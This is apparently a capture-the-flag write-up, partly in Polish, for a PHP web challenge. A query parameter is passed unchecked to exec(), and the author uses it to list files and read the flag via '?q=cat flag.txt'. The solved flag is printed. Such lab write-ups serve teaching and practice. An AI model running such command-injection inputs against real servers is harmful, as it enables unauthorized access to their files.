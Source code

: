 # Fanklub PHP
**Category**: web \
**Points**: 200 

## Description
Jedna z anonimowych grup użytkowników PHP pozwala sobie ostatnio na zbyt wiele. Pokaż im kto tu rządzi.

## Solution
On the site, we are greeted with an error that paramter 'q' was not found. Providing the parameter but without any value gives another error: 

```
Uncaught ValueError: exec(): Argument #1 ($command) cannot be empty in /opt/app/tech.html:6 Stack trace: #0 /opt/app/tech.html(6): exec('') #1 /opt/app/index.php(17): include('/opt/app/tech.h...') #2 {main} thrown in /opt/app/tech.html on line 6
```

so it's trying to exec a system command through this parameter. Giving value 'ls' to the 'q' parameter lists files in the current folder. Final step was to just cat flag.txt:
```
?q=cat flag.txt
```

## FLAG
flag{php_zawsze_w_sercu_pentestera}